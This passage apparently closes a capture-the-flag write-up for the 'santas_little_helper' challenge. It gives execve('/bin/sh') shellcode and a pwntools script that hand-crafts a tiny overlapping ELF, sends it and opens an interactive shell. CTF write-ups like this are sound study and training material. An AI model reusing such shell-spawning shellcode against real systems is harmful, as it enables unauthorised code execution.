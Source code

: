 ```asm
; in ./sc.asm
mov rdi, 0x0400008 ; where /bin/sh is 
push 0x3b
pop rax
syscall
```

This works because PIE is not enabled (for more about PIE, see [here](https://codywu2010.wordpress.com/2014/11/29/about-elf-pie-pic-and-else/)).

114 bytes and flag! Ayyy!

### Solve script

```py
from pwn import *
context.log_level = 'debug'
# io = remote('challs.tfcctf.com', 32501)
io = process('./santas_little_helper')

bs = bytearray()
with open('./base.bin', 'rb') as header: 
    arr = header.read()
    tmp = bytearray(arr[:0x40])
    tmp += arr[0x48:0x78-0x8] # trick 1 + trick 2: don't need the beginning and the end of the Ph (program header) for the overlays
    tmp[0x18] = len(tmp) # trick 2: change e_entry so that it's immediately after the Ph
    tmp[0x20] = 0x38 # trick 1: shifting the start of Ph by changing e_phoff 
    tmp[0x3c] = 0x5 # trick 1: change the end of the ELF header so that the overlay works
    bs += tmp

# from `nasm -f bin -o sc sc.asm`
with open('./sc', 'rb') as sc: # append the shellcode from above
    arr = sc.read()
    bs += arr 
    for i, b in enumerate(p64(0x0068732f6e69622f)): # trick 3
        bs[0x8 + i] = b

io.send(bytes(bs))

io.interactive()
```

